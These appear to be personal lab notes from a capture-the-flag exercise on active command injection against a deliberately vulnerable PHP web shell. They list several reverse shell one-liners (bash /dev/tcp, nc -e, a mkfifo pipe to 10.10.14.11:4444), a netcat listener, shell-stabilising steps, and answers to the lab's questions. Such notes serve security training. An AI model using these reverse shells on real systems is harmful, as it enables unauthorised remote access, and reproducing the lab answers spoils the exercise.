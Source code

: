 **What is Active Command Injection?**

Blind command injection occurs when the system command made to the server does not return the response to the user in the HTML document. Active command injection will return the response to the user. It can be made visible through several HTML elements.

---

Let's consider a scenario: EvilCorp has started development on a web based shell but has accidentally left it exposed to the Internet. It's nowhere near finished but contains the same command injection vulnerability as before! But this time, the response from the system call can be seen on the page! They'll never learn!

Just like before, let's look at the sample code from evilshell.php and go over what it's doing and why it makes it active command injection. See if you can figure it out. I'll go over it below just as before.

![[Untitled 566.png|Untitled 566.png]]

---

We have an input in http://<IP_ADDRESS>/evilshell.php

![[Untitled 1 31.png|Untitled 1 31.png]]

This input isnt sanitized, so we have Command Injection

![[Untitled 2 24.png|Untitled 2 24.png]]

We can try establish a **Reverse Shell**

![[Untitled 3 24.png|Untitled 3 24.png]]
#### REVERSE SHELL CODE
> [!important]  
> REVERSE SHELL CODE
> bash -c "bash -i &> /dev/tcp/\<IP_ADDRESS\>/\<PORT\> 0\>&1"  
system('bash -c "bash -i\ &\> /dev/tcp/\<IP\>/\<PORT\> 0\>&1"');  
nc \<ip\> \<port\> -e /bin/bash  
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2\>&1|nc 10.10.14.11 4444 \>/tmp/f
In our side we have
![[Untitled 4 24.png|Untitled 4 24.png]]
nc -nlvp \<PORT\>  
  
#### treat shell
> [!important]  
> Treat shell
> script /dev/null -c bash
> ctrl z
> stty raw -echo; fg
> reset xterm
> export TERM=xterm
> export SHELL=/bin/bash
> stty sizestty rows X columns X  
python3 -c 'import pty;pty.spawn("/bin/bash")'export TERM=xtermctrl + zstty raw -echo; fg  

Success!

![[Untitled 5 17.png|Untitled 5 17.png]]

---

## MACHINE RESOLUTION

![[Untitled 6 15.png|Untitled 6 15.png]]

What strange text file is in the website root directory?

==**drpepper.txt**==

![[Untitled 7 15.png|Untitled 7 15.png]]

How many non-root/non-service/non-daemon users are there?

==**0 zero**==

This is because there is no user “flagged” as non-root/non-service/non-daemon.

![[Untitled 8 14.png|Untitled 8 14.png]]

What user is this app running as?

==**www-data**==

![[Untitled 9 12.png|Untitled 9 12.png]]

What is the user's shell set as?

==**/usr/sbin/nologin**==

![[Untitled 10 9.png|Untitled 10 9.png]]

What version of Ubuntu is running?

==**14.04.4**== LTS

![[Untitled 11 9.png|Untitled 11 9.png]]

Print out the MOTD.  What favorite beverage is shown?

==**DR PEPPER**==

![[Untitled 12 8.png|Untitled 12 8.png]]